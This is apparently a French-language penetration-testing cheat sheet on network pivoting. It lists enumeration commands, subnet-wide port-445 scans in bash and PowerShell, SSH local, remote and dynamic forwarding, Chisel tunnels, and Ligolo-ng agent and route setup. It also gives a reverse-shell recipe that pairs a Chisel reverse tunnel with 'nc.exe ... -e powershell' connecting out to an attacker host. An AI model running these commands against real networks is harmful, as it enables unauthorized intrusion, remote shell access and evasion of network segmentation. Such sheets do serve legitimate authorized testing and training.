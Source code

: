 # Enumération

```bash
arp -a
ip addr
ip route
ss -ntplu 
netstat -ant
```

```bash
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

```powershell
1..254 | ForEach-Object { $ip = "192.168.1.$_"; if (Test-NetConnection -ComputerName $ip -Port 445 -InformationLevel Quiet) { "$ip : Port 445 ouvert" } }
```

# SSH

## Redirection de port local

```bash
ssh -L 8080:10.10.10.10:80 user@server.com
```

## Redirection de port distant

```bash
ssh -R 8080:localhost:80 user@server.com
```

## Redirection de port dynamique

```bash
ssh -D 50080 user@server.com
```

## Scénarios combinés

```bash
ssh -R 2222:localhost:22 -D 1080 user@server.com
```

# Chisel

## Redirection de port local

```bash
./chisel server --port 8888
./chisel client 192.168.45.237:8888 5000:127.0.0.1:80
```

## Redirection de port distant

```bash
./chisel server --port 8888 --reverse
./chisel client 192.168.45.237:8888 R:5000:127.0.0.1:80
```

## Obtenir un reverse-shell

```bash
./chisel server -p 9999 --reverse
./chisel client 10.129.183.163:9999 R:4445:localhost:4444
nc.exe 172.16.1.5 4445 -e powershell
```

## Redirection socks5

```bash
chisel.exe server --port 7777 --socks5 
chisel client 192.168.14.12:7777 50080:socks
```

# Ligolo-ng

## Installation

```bash
https://github.com/nicocha30/ligolo-ng/releases
```

## Utilisation

```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
agent.exe -connect 192.168.49.115:11601 -ignore-cert
```

## Ajouter route

```bash
sudo ip route add 10.10.150.0/24 dev ligolo
sudo ip route del 10.10.150.0/24 dev ligolo
```

## Reverse / Télécharger fichier

```bash
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
listener_list
```